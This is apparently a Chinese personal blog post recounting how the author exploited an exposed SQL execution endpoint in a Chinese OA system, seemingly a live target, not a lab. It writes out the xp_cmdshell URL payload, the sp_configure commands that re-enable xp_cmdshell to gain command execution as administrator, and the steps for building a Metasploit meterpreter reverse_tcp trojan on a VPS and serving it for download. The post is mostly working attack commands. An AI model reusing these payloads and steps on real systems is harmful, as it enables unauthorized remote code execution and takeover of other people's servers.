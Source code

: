 ```yaml
---
title: 摸鱼鸭～
date: 2020-02-12 12:06:18
tags:
thumbnail: "https://s2.ax1x.com/2020/02/16/3pX7LR.jpg"
---
```


记录一下这半天在家远程摸鱼的日站

首先这是个oa，又是oa！之前致远oa的洞上传了shell却访问报错难受洗窝惹orz，没想到这个oa也有nday：）

sql执行接口，先试了一下sql命令，被拦了，喵喵喵又是connection reset，然后试一下xp_cmdshell的rce payload： `/ServiceAction/com.velcro.base.DataAction?sql=xp_cmdshell%20%27whoami%27` ，提示SQL Server阻止了对sys.xp_cmdshell的访问，那说明这儿的命令执行是存在的嘛～

然后窝在搜SQL Server有啥命令的时候才突然发现原来SQL Server就是Mssql？？那为什么要有两种叫法？我一直以为是不一样的！怀疑喵生QAQ（还不是因为又菜又懒嘤嘤嘤

搜到了Mssql在xp_cmdshell默认关闭时命令执行的方法——CLR？orz一眼瞟过没看懂，于是又康到了激活xp_cmdshell的命令：

```
exec sp_configure 'show advanced options', 1; 
reconfigure; 
exec sp_configure 'xp_cmdshell', 1; 
reconfigure; 
exec sp_configure 'show advanced options', 0; 
reconfigure;
```

或者：

```
EXEC sp_configure 'show advanced options', 1 ;  reconfigure;  //允许修改高级参数
EXEC exec sp_configure 'xp_cmdshell', 1 ; reconfigure;  //打开xp_cmdshell扩展
```

然后完全不抱希望地试了一下，好像是返回报错说sql语句未返回任何结果之类的

桥豆麻袋！没返回结果！那是不是成功修改惹鸭！

继续不报希望地 `sql=xp_cmdshell%20%27whoami%27` 返回了！返回了administrator！

激动的心，颤抖的手哈哈哈哈哈哈哈嗝（菜鸡就是如此卑微，有个rce就开心得不行嘤嘤嘤

chdir一下发现是c盘system32路径；dir一下是一些乱七八糟的文件；ping一下发现可以出外网；net user一下发现米有权限

讲道理窝一直以为Windows也可以一句话弹shell的，所以自从上次日到rce但是没试一下shell之后就一直想着

于是现在又有个良机x怎么能不试一哈捏qvq

然后一搜，原来Windows这么麻烦Orz还不如直接找网站功能传shell呢

但是猥琐的窝还是在vps上哒上了kali的docker装上了msf生成了木马放到了web服务里x

```
sudo apt-get install docker.io  安装docker
docker pull kalilinux/kali-linux-docker  拉取kali镜像
docker run -t -i kalilinux/kali-linux-docker /bin/bash  启动并进入容器
apt-get update && apt-get upgrade
apt-get install metasploit-framework  安装msf
msfconsole -L
exit
docker commit ***** msf  保存容器为镜像
docker run -t -p 8888:8888 -i msf /bin/bash 映射vps同个端口

msfvenom -p windows/meterpreter/reverse_tcp lhost=*.*.*.* lport=8888 -f exe > /root/horse.exe  生成默认木马
docker cp *****:root/horse.exe /root  拷贝出来
python3 -m http.server  开启web服务（要用py3哦）
```
